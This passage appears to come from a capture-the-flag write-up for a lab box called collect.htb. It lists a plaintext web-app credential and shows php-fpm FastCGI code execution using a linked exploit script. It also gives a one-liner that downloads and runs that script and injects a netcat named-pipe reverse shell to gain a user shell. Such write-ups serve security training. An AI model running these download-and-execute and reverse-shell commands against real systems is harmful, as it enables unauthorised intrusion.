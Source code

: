 **Creds:** `webapp_user:Str0ngP4ssw0rdB*12@1`

## php-fpm RCE

There is a way to get arbitrary code execution on FastCGI.

* Exploit -> https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75

Upload exploit script on the box and run it.
```bash
python3 fpm.py 127.0.0.1 /var/www/collect/public/index.php -c "<?php echo system('whoami'); exit; ?>"
```

![](screenshots/port-9000-php-fpm-rce.png)

You can exploit it using the above php filter chain exploit script, Just replace shell variable in `start_http_server()` function with this and start netcat listener on PORT 4141.
  * Make sure that `fpm.py` script is in the same directory.
```py
# Get direct shell as user "victor" by exploiting php-fpm from "www-data" shell
shell = f"curl -s http://{ip}:8000/fpm.py | python3 - 127.0.0.1 /var/www/collect/public/index.php -c \"<?php echo system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc {ip} 4141 >/tmp/f'); exit; ?>\""
```

![](screenshots/http-developers.collect.htb-victor-shell-script.png)

![](screenshots/filterchain-fmp-rce-src-demo.gif)
